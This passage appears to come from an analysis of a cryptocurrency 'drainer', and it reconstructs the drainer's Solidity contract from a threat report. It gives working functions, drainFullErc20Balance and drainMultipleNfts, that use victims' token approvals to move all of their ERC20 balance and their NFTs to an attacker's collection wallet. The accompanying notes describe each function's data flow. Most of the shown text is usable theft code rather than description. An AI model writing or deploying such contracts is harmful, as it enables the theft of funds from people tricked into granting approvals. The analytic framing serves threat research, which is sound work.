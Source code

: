         // A more common pattern is to drain the maximum possible based on current balance and allowance:
        function drainFullErc20Balance(address _tokenAddress, address _victimAddress) external onlyOwner {
            IERC20 token = IERC20(_tokenAddress);
            uint256 victimBalance = token.balanceOf(_victimAddress);
            uint256 currentAllowance = token.allowance(_victimAddress, address(this));
            uint256 amountToDrain = (victimBalance < currentAllowance) ? victimBalance : currentAllowance;

            if (amountToDrain > 0) {
                token.transferFrom(_victimAddress, collectionWallet, amountToDrain);
                emit FundsDrained(_victimAddress, _tokenAddress, amountToDrain);
            }
        }
        ```
    *   **Functionality:** Uses the `transferFrom` function of the target ERC20 token contract. The `_victimAddress` is the owner of the tokens, `address(this)` (the drainer contract) is the spender, and `collectionWallet` is the recipient.
    *   **Data Flow:** Inputs are `_tokenAddress`, `_victimAddress`. The function interacts with the specified ERC20 contract to move funds.
    *   **Report Reference:** This is the primary mechanism for stealing ERC20 tokens described in the report.

### 3.3. Function: Draining Approved ERC721 NFTs

*   **Execution Step (Backend Triggered): Attacker's EOA calls `drainNft`.**
    *   **Logic:** Called after the victim has approved the `BasicDrainer` contract for all their NFTs of a specific collection (`setApprovalForAll`) or for a specific NFT (`approve`). `setApprovalForAll` is more common for drainers.
    *   **Code Concept (Report Implication):**
        ```solidity
        // function drainNft(address _nftContractAddress, address _victimAddress, uint256 _tokenId) external onlyOwner {
        //     IERC721 nftContract = IERC721(_nftContractAddress);
        //     // require(nftContract.isApprovedForAll(_victimAddress, address(this)) || nftContract.getApproved(_tokenId) == address(this), "Not approved"); -- Good practice, drainers might skip.

        //     nftContract.safeTransferFrom(_victimAddress, collectionWallet, _tokenId);
        //     emit NftDrained(_victimAddress, _nftContractAddress, _tokenId);
        // }

        // If draining multiple known token IDs from a collection where setApprovalForAll was granted:
        function drainMultipleNfts(address _nftContractAddress, address _victimAddress, uint256[] calldata _tokenIds) external onlyOwner {
            IERC721 nftContract = IERC721(_nftContractAddress);
            // require(nftContract.isApprovedForAll(_victimAddress, address(this)), "Not approved for all");
            for (uint i = 0; i < _tokenIds.length; i++) {
                // A check if victim still owns the NFT might be here in a careful drainer
                // if (nftContract.ownerOf(_tokenIds[i]) == _victimAddress) { ... }
                nftContract.safeTransferFrom(_victimAddress, collectionWallet, _tokenIds[i]);
                emit NftDrained(_victimAddress, _nftContractAddress, _tokenIds[i]);
            }
        }
        ```
    *   **Functionality:** Uses the `safeTransferFrom` (or `transferFrom`) function of the target ERC721 NFT contract.
    *   **Data Flow:** Inputs are `_nftContractAddress`, `_victimAddress`, and `_tokenId` (or an array of token IDs). Interacts with the specified NFT contract.
    *   **Report Reference:** Key method for stealing NFTs as per the report.
